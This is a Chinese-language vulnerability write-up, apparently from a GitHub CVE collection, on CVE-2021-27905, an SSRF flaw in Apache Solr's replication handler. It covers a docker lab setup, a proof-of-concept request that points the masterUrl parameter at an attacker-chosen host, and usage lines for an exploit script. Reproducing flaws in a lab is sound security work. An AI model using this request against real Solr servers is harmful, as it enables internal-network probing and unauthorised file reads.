



# CVE-2021-27905 Apache Solr 服务端请求伪造漏洞

## 漏洞概述
Apache Solr 8.8.2之前版本存在安全漏洞，Apache Solr 中的 ReplicationHandler（通常注册在 Solr core下的“/replication”）有一个“masterUrl”（也是“leaderUrl”别名）参数，用于指定另一个 Solr core上的另一个 ReplicationHandler 将索引数据复制到本地core。为了防止 SSRF 漏洞，Solr 应该根据它用于“shards”参数的类似配置检查这些参数。攻击者可利用该漏洞，传递特定参数，构造并执行服务端请求伪造，造成攻击者任意读取服务器上的文件，利用该漏洞可造成内网信息探测。

## 漏洞影响
Apache Solr < 8.8.2

## 环境搭建
漏洞环境
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-27905/Env

运行漏洞环境
```
docker-compose up -d
```

访问`http://127.0.0.1:8983`，环境运行成功



## 漏洞复现
### POC
```
http://your-ip:8983/solr/{core_name}/replication/?command=fetchindex&masterUrl={http://xxx}
```

### EXP
漏洞脚本
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-27905/Exp/CVE-2021-27905.py

使用方法
```
python3 CVE-2021-27905.py -u target -d ip:port
python3 CVE-2021-27905.py -u http://192.168.21.166:32768 -d 192.168.21.166:7777
```





## 参考
> https://github.com/Henry4E36/Solr-SSRF